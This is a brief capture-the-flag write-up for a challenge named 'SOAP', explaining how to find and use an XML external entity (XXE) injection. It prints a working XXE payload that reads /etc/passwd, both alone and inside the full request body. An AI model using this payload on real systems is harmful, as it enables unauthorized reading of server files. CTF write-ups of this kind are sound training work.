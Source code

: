 # SOAP

## Description
This write up will show how to solve the CTF for "SOAP"

## Solution
When clicking on details and checking the requests, it shows there is XML being send with the request.</br>
Maybe there is an xml external entity injection possible.</br>
Add the following line, before the `<data>` tag: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`.</br>
The request has the following data included:</br>
`<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>`</br>
This will return `/etc/passwd` and on the bottom is the flag.
